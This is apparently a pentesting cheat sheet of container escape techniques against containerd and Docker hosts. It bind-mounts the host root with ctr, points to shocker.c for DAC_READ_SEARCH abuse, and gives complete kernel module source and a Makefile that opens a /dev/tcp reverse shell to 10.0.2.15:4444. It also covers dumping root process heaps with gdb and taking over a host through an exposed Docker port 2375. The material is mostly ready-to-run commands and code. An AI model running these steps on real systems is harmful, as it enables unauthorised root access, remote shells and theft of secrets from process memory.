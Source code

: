 # Containerd Attacks

## 1. Use case -User privileges in a host which is running Containerd

* `ctr image list` Check containerd images&#x20;
* Next Start a container and add it to host machine&#x20;
  * `ctr run --mount type=bind,src=/,dst=/,options=rbind -t ubuntu:latest ubuntu bash`
  * After that point you can reach root file system.&#x20;

## 2. Use Case - Abusing DAC\_READ\_SEARCH Capability

* Start a container in root mode with privileges.
* &#x20;`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`
* Check `capsh --print`
  * And find cap\_dac\_read\_search
  * `mount`
  * Check /etc/hosts is mounted or not
  * if it is there use the code [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)
  * Change there main function in order to give argument and read anything in host system.&#x20;
  * ![](../../.gitbook/assets/image.png)

## 3. Use Case - User privileges and Abusing SYS\_Module Capability

If there is a way of privs with user rights and taking root by using containers. Create containerd image there and check sys\_mod cap and after that reach root file system and heap of process there.&#x20;

`ctr image list`

`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`

Create that c file&#x20;

```

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.0.2.15/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Create Makefile&#x20;

```

obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

`make`

Open another shell and run `nc -vnlp 4444`

`insmod reverse-shell.ko`

You have reached the root directories.

&#x20;**Reaching root process heaps with gdb**&#x20;

```
cat /proc/{PID Number}/maps
gdb --batch --pid {PID Number} -ex "dump memory heap.dump 0x55da28f1a000 0x55da28f3b000";
# take here heap section then

strings heap.dump
```



## 4. Use Case Docker port exposed on remote machine&#x20;

if there is open docker port in remote machine we can connect to there.&#x20;

* `export DOCKER_HOST=REMOTE_HOST_IP:2375`
* `docker run -it -v /:/host ubuntu:22.04 bash`
* `chroot /host`\
  \
  `Now we are in remote machine file system.`
